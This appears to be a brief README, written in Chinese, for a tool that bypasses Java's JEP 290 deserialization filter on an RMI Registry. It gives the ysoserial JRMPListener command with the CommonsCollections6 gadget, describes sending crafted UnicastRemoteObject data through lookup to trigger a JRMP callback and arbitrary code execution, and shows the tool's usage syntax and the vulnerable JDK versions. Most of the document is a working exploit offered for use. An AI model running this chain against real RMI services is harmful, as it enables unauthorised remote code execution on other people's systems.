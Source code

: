 # rmi_bypass_jep290
### 利用 UnicastRemoteObject + JRMPListener Bypass jep290

首先利用 ysoserial 开启 JRMPListener 服务监听

```
java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections6 "touch /tmp/test.txt"
```

然后在利用特殊的 lookup 方法将特殊构造的 UnicastRemoteObject 序列化数据发送到 RMI Registry 服务，在其反序列化的时候会创建JRMP连接，从而形成任意代码执行。

```
Usage: java -jar rmi_bypass_jep290.jar rmi_server_ip rmi_server_port jrmp_listener_ip jrmp_listener_port
```

**适用的JDK版本：JDK <= 8u231**


参考链接：https://mogwailabs.de/en/blog/2020/02/an-trinhs-rmi-registry-bypass/

